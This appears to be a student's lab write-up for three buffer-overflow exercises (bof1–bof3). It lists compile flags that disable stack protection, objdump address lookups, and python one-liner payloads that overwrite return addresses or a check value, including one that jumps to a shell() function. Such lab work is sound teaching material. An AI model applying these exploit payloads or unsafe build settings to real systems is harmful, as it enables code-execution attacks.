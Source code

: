 # Lab 1
Run vitual environment by docker file (using for attacking three files: bof1, bof2, bof3)
`docker run -it --privileged -v "C:/Users/ToanKhoa/Desktop/WorkSpace/IS (2024)/Security-labs:/home/seed/seclabs" img4lab`
## File bof1.c
- `gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`
- Using the `-fno-stack-protector` option disables stack protection, making the program more vulnerable to buffer overflow attacks that would normally be caught by the stack protector mechanism.
- The `-mpreferred-stack-boundary=2` option sets the stack alignment to 4 bytes instead of the default 16 bytes. This modifies how memory is organized on the stack, potentially aiding in the creation of specific memory-based exploits.
**Getting secretFunc() address in terminal**
`objdump -d bof1.out|grep secretFunc`
![alt text](./Image/image-11.png)
- We get the address of secretFunc() is: 0804848b
**BOF1 Stack Frame**
![alt text](./Image/image-10.png)
->   Buffer overflow at the 205th byte.
**Run the program in terminal**
- Utilize the steps above to automatically input 204 bytes of the character 'a', followed by the address of the secretFunc function.
- The input format should be 204 bytes of 'a' followed by the memory address of secretFunc (\x8b\x84\x04\x08), continuing the overflow.
- `echo $(python -c "print('a'*204 + '\x8b\x84\x04\x08')") | ./bof1.out`
or `echo $(python -c "print('A' * 200 + 'BBBB' + '\x8b\x84\x04\x08')") | ./bof1.out`
**Result**
![alt text](./Image/image-12.png)
->Successful Attack
**Solution**
=> To prevent exploitation in this case, I will replace gets() with fgets() to ensure the correct limit of array a is respected.

## File Bof2.c 
**Summarizing**
- In this scenario, the buf[] array contains 40 elements, but the fgets() function reads up to 44 characters (fgets(buf, 45, stdin)), reserving the final element for the null terminator (\0).
- We rely on the last 4 elements to modify the check.
**BOF2 Stack Frame**
![alt text](./Image/image-13.png)
**Run the bof2.c file in terminal**
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`
**Run the program in terminal**
`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`
**Result:**
![alt text](./Image/image-14.png)
-> Attack successfully

### File bof3.c 
**Summarizing**
- In this situation, the buf[] array consists of 128 elements, but the fgets() function reads up to 133 characters.
  - This allows us to use 4 extra characters to overwrite the return address, redirecting execution to the shell function instead.
  
**BOF3 Stack Frame**
![alt text](./Image/image-15.png)
**Run the bof3.c file in terminal**
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`
**Getting shell() address in terminal**
`objdump -d bof3.out|grep shell`
![alt text](./Image/image-17.png)
- Address of shell() is **0804845b**

**Run the program in terminal**
`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out` to buffer-overflow with address of shell
**Result**
![alt text](./Image/image-18.png)
- We attack successfully 